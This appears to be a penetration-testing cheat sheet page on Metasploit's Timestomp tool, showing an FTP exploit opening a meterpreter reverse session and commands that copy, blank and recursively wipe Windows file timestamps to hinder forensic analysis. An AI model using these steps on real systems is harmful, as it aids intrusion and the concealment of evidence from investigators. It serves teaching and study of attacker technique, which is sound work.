


# Timestomp

## Overview

Timestomp is a **covering tracks** tool used to manipulate file timestamps on Windows systems. It allows users to modify the creation, modification, and access times of files, which can be useful for evading forensic analysis and hiding evidence of file activity.

## Installation

Timestomp is part of the Metasploit Framework.

## Usage

Take an example of a file on the system and the MAC (Modified, Accessed, Changed) times of it:

```ps1
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 5/3/2009 2:30:08 AM
Last Accessed: 5/3/2009 2:31:39 AM
Last Modified: 5/3/2009 2:30:36 AM
```

Create a metasploit meterpreter session and use the timestomp command to change the timestamps of the file to match those of another file on the system:

```bash
msf exploit(warftpd_165_user) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Connecting to FTP server 172.16.104.145:21...
[*] Connected to target FTP server.
[*] Trying target Windows 2000 SP0-SP4 English...
[*] Transmitting intermediate stager for over-sized stage...(191 bytes)
[*] Sending stage (2650 bytes)
[*] Sleeping before handling stage...
[*] Uploading DLL (75787 bytes)...
[*] Upload completed.
[*] meterpreter session 1 opened (172.16.104.130:4444 -> 172.16.104.145:1218)
meterpreter > use priv
Loading extension priv...success.
meterpreter > timestomp -h

Usage: timestomp OPTIONS file_path

OPTIONS:

    -a   Set the "last accessed" time of the file
    -b        Set the MACE timestamps so that EnCase shows blanks
    -c   Set the "creation" time of the file
    -e   Set the "mft entry modified" time of the file
    -f   Set the MACE of attributes equal to the supplied file
    -h        Help banner
    -m   Set the "last written" time of the file
    -r        Set the MACE timestamps recursively on a directory
    -v        Display the UTC MACE values of the file
    -z   Set all four attributes (MACE) of the file

meterpreter > cd Documents\ and\ Settings
meterpreter > cd P0WN3D
meterpreter > cd My\ Documents

Listing: C:\Documents and Settings\P0WN3D\My Documents
======================================================

Mode              Size  Type  Last modified                   Name
----              ----  ----  -------------                   ----
40777/rwxrwxrwx   0     dir   Wed Dec 31 19:00:00 -0500 1969  .
40777/rwxrwxrwx   0     dir   Wed Dec 31 19:00:00 -0500 1969  ..
40555/r-xr-xr-x   0     dir   Wed Dec 31 19:00:00 -0500 1969  My Pictures
100666/rw-rw-rw-  28    fil   Wed Dec 31 19:00:00 -0500 1969  test.txt
meterpreter > timestomp test.txt -v
Modified      : Sun May 03 04:30:36 -0400 2009
Accessed      : Sun May 03 04:31:51 -0400 2009
Created       : Sun May 03 04:30:08 -0400 2009
Entry Modified: Sun May 03 04:31:44 -0400 2009
```

Set the timestamps of the file "test.txt" to match those of "C:\WINNT\system32\cmd.exe":

```bash
timestomp test.txt -f C:\\WINNT\\system32\\cmd.exe
[*] Setting MACE attributes on test.txt from C:\WINNT\system32\cmd.exe
meterpreter > timestomp test.txt -v
Modified      : Tue Dec 07 08:00:00 -0500 1999
Accessed      : Sun May 03 05:14:51 -0400 2009
Created       : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009
```

```ps1
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 12/7/1999 7:00:00 AM
Last Accessed: 5/3/2009 3:11:16 AM
Last Modified: 12/7/1999 7:00:00 AM
```

Set the timestamps of the file "test.txt" to zero with the *-b* option to hinder forensic analysis:

```bash
meterpreter > timestomp test.txt -v
Modified      : Tue Dec 07 08:00:00 -0500 1999
Accessed      : Sun May 03 05:16:20 -0400 2009
Created       : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009

meterpreter > timestomp test.txt -b
[*] Blanking file MACE attributes on test.txt
meterpreter > timestomp test.txt -v
Modified      : 2106-02-06 23:28:15 -0700
Accessed      : 2106-02-06 23:28:15 -0700
Created       : 2106-02-06 23:28:15 -0700
Entry Modified: 2106-02-06 23:28:15 -0700
```

Blanking the filesystem (use *-r* to do this recursively on a directory):

```bash
meterpreter > timestomp C:\\ -r
[*] Blanking directory MACE attributes on C:\
```

Before and after screenshots:
<br><br>


